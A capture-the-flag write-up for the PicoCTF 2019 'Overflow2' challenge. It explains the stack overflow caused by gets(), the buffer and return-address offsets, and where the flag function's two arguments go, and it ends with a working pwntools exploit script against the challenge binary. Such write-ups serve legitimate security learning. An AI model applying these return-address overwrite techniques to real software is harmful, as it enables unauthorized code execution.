 # PicoCTF 2019 - Binary Exploit - Overflow2

Similar to Overflow1 except that we have to overwrite the return address and pass 2 arguments to the flag funtion

## The Vulnerability
it calls 'gets', a function that is known the be very dangerous (it even says it in the man page to never use this function) The reason this function is dangerous is because of how it works: 'gets(char \*s) reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0'). No check for buffer overrun is performed' So it keeps reading input, even if this is way bigger then the amount of memory allocated for that string Causing it the overwrite values from the stack

## File info
```
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2]$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=80e23ef08eb912fde3fc2f7ff2148e0e62960080, not stripped
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2]$ checksec vuln
[*] '/home/sain/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Exploit it

The exploit itself will work just like Overflow1 except that we have the find out where to put the arguments on the stack

if we look at the disassembly of 'flag' we can see it gets the args from `ebp+0x8` & `ebp+0xc`

source c:
```c
if (arg1 != 0xDEADBEEF)
	return;
if (arg2 != 0xC0DED00D)
	return;
printf(buf);
```

disassemble:

![picture alt](https://i.gyazo.com/c00092c0725b3ddaf7c4e3d6de9a1959.png)

okay now to we have an idea of where we have to go with the arguments lets get to the buffer overflow part

first of all we know our buffersize is 176
if we fill up that buffer with 'A' our stack kinda looks like this:

![picture alt](https://i.gyazo.com/dfb59969aa2e28b538845eac4f7f7f6c.png)

our return address is again 12 bytes after our buffer `0x0804871c` -> main+103

and our flag is located @ `0x080485e6`
so now we can do a small test to see the stack inside our flag function and see where we need to put the arguments

input here was: `python -c "'A' * 176 + 'B' * 12 + '\xe6\x85\x04\x08'"`

![picture alt](https://i.gyazo.com/81a7107a62a00f4d79a807e8e699b853.png)

As you can see there are 4 empty bytes inbetween our buffer and `ebp+0x8`
so we gotta modify our input a bit by adding 4 more bytes to our payload; behind the flag address

and then finally after those 4 we can put in the values it compares to in the disassembly

first argument: `0xdeadbeef` 
and second argument: `0xc0ded00d`

now that we got all that down our exploit script looks something like:

```python
from pwn import *

buff = "A" * 176 + "B" * 12
buff2 = "C" * 4

flag_loc = util.packing.p32(0x080485e6)
flag_arg1 = util.packing.p32(0xdeadbeef)
flag_arg2 = util.packing.p32(0xc0ded00d)

payload = buff
payload += flag_loc
payload += buff2
payload += flag_arg1
payload += flag_arg2

online = True

if online:
	file_loc = "/problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln"
	p = process(file_loc)
else:
	p = process("./vuln")

p.recvuntil("Please enter your string: \n")
p.sendline(payload)
print p.recvall()
```